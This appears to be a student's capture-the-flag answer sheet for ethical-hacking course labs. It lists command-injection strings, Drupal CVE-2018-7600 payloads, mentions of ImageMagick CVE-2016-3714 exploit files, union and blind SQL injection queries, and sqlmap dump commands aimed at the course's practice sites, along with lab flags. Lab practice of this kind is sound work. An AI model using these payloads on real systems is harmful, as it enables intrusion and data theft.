







<h3>ED200</h3>

Question: [ED200](https://bowneconsultingcontent.com/pub/EH/proj/cloud/ED200_tkp/ED200c_tkp.htm)

Screenshot:

Flag: Google PersistentDisk

<h3>ED101</h3>

Question: [ED101](https://bowneconsultingcontent.com/pub/EH/proj/ED101.htm)

Flags: 
* ED101.1: /tmp/baker
* ED101.2: sudo
* ED101.3: dhclient -v || ifconfig eth0 192.168.0.1 netmask 255.255.255.0

<h3>ED102</h3>

<h4>RCE Flags</h4>
#ED102.1:
CMD: 127.0.0.1; cat flag1.txt
Flag: simple and easy

FOR OTHER FLAGS:
127.0.0.1; find / -name "*flag*"
./.sub/flag4.txt
./sub/flag2.txt
./sub/sub2/flag3.txt

#ED102.2: 
CMD: 127.0.0.1; cd sub; cat flag2.txt
Flag: a little harder

#ED102.3:
CMD: 127.0.0.1; cd sub; cd sub2; cat flag3.txt
Flag: hidden from apache

#ED102.4:
CMD: 127.0.0.1; cd .sub; cat flag4.txt
Flag: hidden-directory

<h4>Imagemagick CVE-2016-3714</h4>

Question: [ED102](https://bowneconsultingcontent.com/pub/Attack/proj/ED102.htm)

After Upload:

Vulnerability:

We need to read "dont_look_here.exe". We can use the payload in "exploit-ed102.5.jpg"

FLAG ED102.5: just-sitting-there

We need to execute "dont_run_me.jpg". We can use the payload in "exploit-ed102.6.jpg". It is also required to look into source code of result in order to display ascii art correctly.

FLAG ED102.6: ASCII ART

<h4>DRUPAL CVE-2018-7600</h4>

FLAG ED102.7 PAYLOAD: 'mail[#markup]': 'cat flag7.txt | tee 0xBB.txt'

FLAG ED102.7: Exploiting_Drupal

FLAG ED102.8 PAYLOAD: 'mail[#markup]': 'cat ../flag8.txt | tee 0xBB.txt'

FLAG ED102.8: above_drupal 

<h3>ED103</h3>

<h4>ED103.1</h4>
<h3>103.1.1</h3>
QUERY ED103.1.1: select * from widgets.employees
FLAG ED103.1.1: 333-22-3333

<h3>103.1.2</h3>
QUERY ED103.1.2: SELECT COLUMN_NAME from information_schema.columns
OUTPUT:
COLUMN_NAME: YOUNG_MAKE_PER_THOUSAND_GETS
COLUMN_NAME: NOT_YOUNG_MAKE_PER_THOUSAND_GETS

<h4>ED103.2</h4>
<h3>103.2.1</h3>
INPUT:
' union select ssn from employees where name like '%linus%
OUTPUT:
444-22-8357

<h3>103.2.2</h3>
#finding the table names:
SELECT name from employees WHERE name = '' union select group_concat(table_name) from information_schema.tables where table_schema=database()#'
#output: employees,passwords

#finding the column names:
' union select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='passwords
#output: id,pw

#finding the password of steve
' union select pw from passwords as p join employees as e on e.id=p.id where e.name like '%steve%
# FLAG: alpine

<h3>103.2.3</h3>
#Command: sqlmap -u http://ad.samsclass.info/sqli/chal2.php?u=x --current-user
#User (flag): 'bill2'@'localhost'

<h3>103.2.4</h3>
#Command: sqlmap -u https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs --users --random-agent
#Management users (flag): 'bill2a'@'localhost'

<h3>103.2.5</h3>
#Command list:
--dbs
--tables
#Fetch command: sqlmap -u https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs --random-agent -D widgets2a -T employees --dump
#Output:
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
#Flag: 333-22-4888

<h3>103.2.6</h3>
Only user I can find is bill2a:
[23:02:48] [INFO] fetching database users privileges
database management system users privileges:
[*] 'bill2a'@'localhost' [1]:
    privilege: USAGE

#Flag: 1

<h3>103.3.1</h3>
#Queries: 
x' or LENGTH(database())>5#
x' or LENGTH(database())<10#
x' or LENGTH(database())=8#

#Flag: 8

<h3>103.3.2</h3>
#Queries:
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 1, 1)='1'#
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 2, 1)='1'#
x' UNION SELECT name FROM employees WHERE name='Bill Gates' AND substr(ssn, 3, 1)='1'#

#Flag: 111

<h3>103.3.3</h3>
#SQLMap Command:
sqlmap -u https://games.samsclass.info/sqli/chal3.php --random-agent --method=POST --data="u=x" -p u --dump
#Table:
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | xxx-xx-xxxx | admin          |
| 2  | 111-22-4472 | Bill Gates     |
| 3  | 333-22-1537 | Steve Jobs     |
| 4  | 444-22-1174 | Linus Torvalds |
| 5  | zzz-zz-zzzz | Yoda           |
+----+-------------+----------------+
#Flag: 1

<h3>103.3.4</h3>
+----+----------+
| id | password |
+----+----------+
| 1  | frog     |
| 2  | x        |
| 3  | wonky    |
| 4  | dilbert  |
+----+----------+
#Flag: 1
#103.3.5 Flag: 1
#103.3.6 Flag: frog

